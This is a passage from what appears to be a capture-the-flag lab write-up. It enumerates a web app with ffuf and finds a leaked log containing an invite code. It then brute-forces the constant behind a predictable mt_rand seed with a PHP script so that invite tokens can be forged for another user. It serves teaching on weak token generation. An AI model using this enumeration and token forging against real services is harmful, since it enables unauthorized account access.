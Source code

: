 ### Enumerating with ffuf: there's hope! {#Enumerating-with-ffuf-theres-hope}
After multiple espressos I remembered what my mamma always used to say
> <i>"If you get stuck, try to enumerate the stack"  </i>

Thanks mamma! Let's see if ffuf brings anything useful by executing the following command:
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -u http://[MACHINE_IP]:1337/FUZZ
```
Once done, we can see a very interesting endpoint: ```/log```
<br>
On this page, we can see an ```app.log``` file, which once clicked shows the following information:
```
2025-01-23 14:32:56 - User POST to /index.php (Login attempt)
2025-01-23 14:33:01 - User POST to /index.php (Login attempt)
2025-01-23 14:33:05 - User GET /index.php (Login page access)
2025-01-23 14:33:15 - User POST to /index.php (Login attempt)
2025-01-23 14:34:20 - User POST to /index.php (Invite created, code: MTM0ODMzNzEyMg== for alpha@fake.thm)
2025-01-23 14:35:25 - User GET /index.php (Login page access)
2025-01-23 14:36:30 - User POST to /dashboard.php (User alpha@fake.thm deactivated)
2025-01-23 14:37:35 - User GET /login.php (Page not found)
2025-01-23 14:38:40 - User POST to /dashboard.php (New user created: hello@fake.thm)
```
Now not only do we have a fresh email to hack, but we can also use the token for ```alpha@fake.thm``` to bruteforce the constant needed (```$constant_value```) in the php code mentioned before. Let's get forging!

### Accessing the user account, first flag! {#Accessing-the-user-account-first-flag}
To forge our token for ```hello@fake.thm```, we first need to find what the ```$constant_value``` variable is. To do this, I am going to change a bit the script in the API documentation and try to bruteforce it using the token we already have, the one for ```alpha@fake.thm```.

Here is the php code I used:
```php
<?php

$email = "alpha@fake.thm"; 
$constant_value = 0;

for ($constant_value = 0; $constant_value < 100000; $constant_value++) {
    $seed_value = hexdec(strlen($email) + $constant_value + hexdec(substr($email, 0, 8)));

    mt_srand($seed_value);
    $random = mt_rand();
    $invite_code = base64_encode($random);

    if ($invite_code == "MTM0ODMzNzEyMg==") {
        echo $constant_value;
    } 
}

?>

```
Now you might be wondering, why did I choose 100000 instead of something smaller? 
<br>
Well Amico mio, turns out the constant value is 99999, so if you have a potato pc go get another espresso (or take the value from me, I am not gonna judge).
